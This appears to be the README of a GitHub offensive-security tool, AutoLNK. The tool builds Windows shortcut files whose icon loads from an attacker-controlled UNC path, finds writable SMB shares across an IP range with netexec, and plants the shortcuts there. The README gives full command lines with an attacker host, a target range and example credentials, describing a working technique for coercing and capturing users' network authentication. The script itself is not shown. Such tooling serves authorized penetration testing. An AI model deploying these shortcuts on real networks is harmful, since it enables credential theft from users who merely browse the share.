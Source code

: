 # AutoLNK LNK Payload Generator and SMB Share Manager

This Python script is designed to generate `.lnk` (shortcut) files, scan SMB shares for write access, upload the generated `.lnk` files to discovered shares, and clean them up later. It is capable of running on both Windows and non-Windows systems.

## Features

- **Generate LNK (Shortcut) Files**: Creates `.lnk` files on both Windows and non-Windows platforms.
- **Scan SMB Shares**: Scans an IP range for writable SMB shares using the `netexec` tool.
- **Upload LNK Files**: Uploads the generated `.lnk` file to discovered writable SMB shares.
- **Cleanup LNK Files**: Deletes previously uploaded `.lnk` files from the SMB shares.
- **Cross-Platform**: Works on both Windows and Linux systems.

## Requirements

### Windows:
- `pywin32` library (for LNK file creation on Windows)

### Linux:
- `pylnk3` library (for LNK file creation on Linux)
- `smbclient` tool (for SMB share interaction)

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/your-username/lnk-payload-smb.git
   cd lnk-payload-smb
   ```

2. Install required Python libraries:

   On Windows:
   ```bash
   pip install pywin32
   ```

   On Linux:
   ```bash
   pip install pylnk3
   ```

3. Ensure that `netexec` and `smbclient` tools are available on your system.

## Usage

The script provides the ability to either generate `.lnk` files, scan SMB shares, upload `.lnk` files, or clean up previously uploaded `.lnk` files. Below is a detailed breakdown of its usage:

### Command-line Arguments

| Argument          | Description                                                                                      | Required |
|-------------------|--------------------------------------------------------------------------------------------------|----------|
| `--target-range`   | The target IP range for SMB scanning (e.g., `192.168.131.0/24`)                                   | Yes      |
| `--username`       | Username for SMB authentication                                                                  | Yes      |
| `--password`       | Password for SMB authentication                                                                  | Yes      |
| `--domain`         | Domain for SMB authentication (use only if domain authentication is required)                    | No       |
| `--local-auth`     | Use this flag for local SMB authentication (disables domain authentication)                      | No       |
| `--host`           | The attacker's IP or hostname to be embedded in the LNK file's icon location                     | Yes      |
| `--output`         | The name of the `.lnk` file to be generated                                                      | Yes      |
| `--execute`        | The command that will be executed when the shortcut is clicked (defaults to `C:\Windows\explorer.exe .`) | No       |
| `--targets-file`   | Path to save the discovered SMB shares (defaults to `/home/kali/targets.txt`)                    | No       |
| `--cleanup`        | Use this flag to remove the uploaded `.lnk` files from the SMB shares                            | No       |

### Example Usage

1. **Generate and Upload LNK Files to SMB Shares**:

   This command generates a `.lnk` file and scans for writable SMB shares within a given IP range. It then uploads the `.lnk` file to the discovered shares.

   ```bash
   python3 lnk_payload_smb.py --target-range 192.168.131.0/24 --username admin --password 'Password123!' --host 192.168.131.10 --output /home/kali/myfile.lnk
   ```

2. **Clean Up Uploaded LNK Files**:

   This command removes the previously uploaded `.lnk` files from the writable SMB shares discovered earlier.

   ```bash
   python3 lnk_payload_smb.py --target-range 192.168.131.0/24 --username admin --password 'Password123!' --cleanup
   ```

## How It Works

1. **LNK File Generation**:
   The script generates a `.lnk` file that points to a specified command (e.g., `cmd.exe`) and assigns a custom icon from a UNC path (`\\attacker_ip\share\file.ico`).

2. **SMB Share Scanning**:
   It uses the `netexec` tool to scan a given IP range for SMB shares with write access.

3. **Uploading LNK Files**:
   The script uploads the `.lnk` file to all writable SMB shares using the `smbclient` tool.

4. **Cleaning Up LNK Files**:
   It removes the uploaded `.lnk` files from the SMB shares using `smbclient`.

## Notes

- Make sure you have appropriate permissions to scan and upload files to the SMB shares.
- The script assumes that the required tools like `netexec` and `smbclient` are installed and available in the system's PATH.
- Wrap passwords in single quotes when using special characters (e.g., `Password123!`) to avoid breaking the command.

![image](https://github.com/user-attachments/assets/41bba42a-8392-4a2d-a476-00ff2193e860)


![image](https://github.com/user-attachments/assets/c1923b63-4d2f-44ba-bd7b-381e0f4370df)



If --cleanup argument is used:

![image](https://github.com/user-attachments/assets/c59d52cc-c812-4548-b7c8-da29d5a499e3)

